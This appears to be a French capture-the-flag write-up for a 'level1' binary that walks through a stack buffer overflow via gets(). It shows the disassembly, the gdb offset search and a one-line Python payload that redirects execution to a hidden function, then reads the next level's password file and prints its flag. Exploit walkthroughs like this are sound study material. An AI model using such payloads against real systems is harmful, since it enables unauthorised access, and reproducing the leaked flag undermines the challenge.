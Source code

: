 Utilisons la même méthode que precedement:

```
objdump -M intel -d level1
```

On remarque l'utilisation de la fonction gets dans le main:
```
 8048489:	8d 44 24 10          	lea    eax,[esp+0x10]
 804848d:	89 04 24             	mov    DWORD PTR [esp],eax
 8048490:	e8 ab fe ff ff       	call   8048340 <gets@plt>
```

Documentation sur le buffer overflow en utilisant la fonction get:
https://owasp.org/www-community/attacks/Buffer_overflow_attack

```
echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A" > /tmp/test
gdb ./level1
r < /tmp/test
```

On recoit une Segfalt, notre intuition est bonne.
On recupere grace a gdb un offset: "0x63413563".
Calculons à l'aide d'un outil l'offset suivant afin d'accéder à l'adrsse mémoire de la prochaine instruction.
Il s'agit de 76.
La fonction run se trouve en 0x08048444 donc nous faisons

```python3
python -c "print('*' * 76 + '\x44\x84\x04\x08')" > /tmp/chain # inversé car endian
cat /tmp/chain - | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
